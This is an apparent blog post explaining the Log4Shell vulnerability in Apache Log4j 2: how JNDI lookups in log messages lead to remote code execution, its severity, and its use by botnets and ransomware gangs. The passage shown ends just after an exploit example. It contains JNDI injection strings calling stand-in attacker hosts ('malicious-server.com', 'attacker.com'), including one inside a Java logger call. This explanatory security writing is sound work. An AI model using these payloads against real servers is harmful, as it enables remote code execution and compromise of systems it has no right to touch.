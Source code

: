 ```yaml
---
title: "Log4Shell Vulnerability: What You Need to Know"
excerpt: "The Log4Shell (CVE-2021-44228) vulnerability shook the cybersecurity world. Learn how it works, why it’s critical, and how to protect your systems."
author: "Jane Smith"
date: "April 10, 2024"
readTime: "11 min read"
tags: ["Cybersecurity", "Log4Shell", "Java", "Zero-Day", "Vulnerability"]
---
```




## Introduction

In December 2021, a critical vulnerability was disclosed in Apache Log4j 2, a widely-used Java logging framework. Tracked as **CVE-2021-44228** and dubbed **Log4Shell**, this flaw allowed attackers to achieve **unauthenticated remote code execution** (RCE) on servers using vulnerable versions of Log4j.

This blog post provides an in-depth look at how Log4Shell works, why it was so dangerous, and how organizations can defend against similar vulnerabilities.

## Understanding the Vulnerability

The core issue lies in Log4j's support for **JNDI (Java Naming and Directory Interface) lookups** in log messages. Specifically, when an attacker includes a string like `${jndi:ldap://malicious-server.com/a}` in a log message, Log4j attempts to resolve and load the object from the remote server — executing any returned Java class.

### Technical Summary

- **Vulnerability ID:** CVE-2021-44228
- **Component:** Apache Log4j 2 (versions < 2.15.0)
- **Impact:** Remote Code Execution (RCE)
- **Attack Vector:** Log injection via headers, user-agent, etc.
- **Severity:** Critical (CVSS 10.0)

## Real-World Exploitation

The Log4Shell exploit was quickly adopted by threat actors including:

- **Botnet operators**: Integrating the exploit into Mirai and Muhstik
- **Crypto miners**: Using it to drop miners on exposed servers
- **Ransomware gangs**: Targeting VMware Horizon, Jenkins, and cloud platforms

Many organizations, including Amazon, Apple, and Microsoft, scrambled to patch and monitor for indicators of compromise (IoCs).

## Exploiting Log4Shell

Here’s a simplified example:

```java
logger.info("${jndi:ldap://attacker.com/malicious}");
```
